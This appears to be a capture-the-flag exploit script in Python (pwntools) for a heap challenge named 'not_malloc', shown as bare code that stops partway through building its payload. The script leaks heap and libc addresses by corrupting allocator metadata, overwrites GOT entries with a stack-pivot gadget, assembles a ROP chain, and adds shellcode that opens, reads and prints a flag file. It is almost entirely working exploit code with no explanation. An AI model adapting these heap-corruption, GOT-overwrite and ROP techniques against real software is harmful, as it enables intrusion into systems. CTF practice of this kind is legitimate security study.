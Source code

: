 ```py
shellcode = shellcraft.open('./flag')
shellcode += shellcraft.read('rax', 'rsp', 0x40)
shellcode += shellcraft.write(1, 'rsp', 0x40)
code = asm(shellcode)

libc = ELF("/home/brwook/ctf/40_LakeCTF/not_malloc/libc.so.6", False)
libnotmalloc = ELF("/home/brwook/ctf/40_LakeCTF/not_malloc/libnotmalloc.so", False)

heap_size = 0x4000
p.sendlineafter(b"HEAP SIZE > ", hex(heap_size).encode())
p.sendlineafter(b"> ", b'2')

# 1. libnotmalloc leak through misc_bin.head->next
create(0, heap_size // 4, b'dummy')
create(1, heap_size // 4, b'dummy')
create(2, 0x100, p64(0) + p64(heap_size // 4) + p64(1)) # located at chunk_metadata
free(1)
free(0)

show(2)
p.recvuntil(b"content : ")
notmalloc_heap = u64(p.recv(6).ljust(8, b'\x00')) - 0x3020
log.success(f"notmalloc heap @ {hex(notmalloc_heap)}")
assert notmalloc_heap & 0xFFF == 0x0

libnotmalloc.address = notmalloc_heap + 0x9000
log.success(f"libnotmalloc base @ {hex(libnotmalloc.address)}")

free(2)

# 2. overwrite misc_bin.head->next with setbuf@got.plt of libnotmalloc
create(2, 0x100, p64(libnotmalloc.got.setbuf + 0x2000) + p64(0x2000) + p64(1))
create(0, heap_size // 2, b'dummy')

# 3. libc leak through failing at fgets
create(1, -1)

show(1)
p.recvuntil(b"content : ")
libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.symbols['setbuf']
mov_rsp_rdx = libc.address + 0x0005a170  # 0x0005a170: mov rsp, rdx; ret;
log.info(f"libc @ {hex(libc.address)}")

free(2)
free(0)

# 4. overwrite link_@got.plt with mov_rsp_rdx gadget
create(2, 0x100, p64(libnotmalloc.got.link_ + 0x2000) + p64(0x2000) + p64(1))
free(2)
create(0, 0x2000, b'dummy')
rop = ROP([libc])
mmap_address = 0x12345000
payload = flat(
    mov_rsp_rdx,
    libnotmalloc.sym.unlink_,
    libnotmalloc.sym.get_metadata,
    libnotmalloc.sym.get_chunk,
    libnotmalloc.sym.extend_mapping,
    libnotmalloc.sym.backward_consolidate,
    libc.sym.__isoc99_scanf,
    libc.sym.exit,
    libnotmalloc.address + 0x40a8,
)
```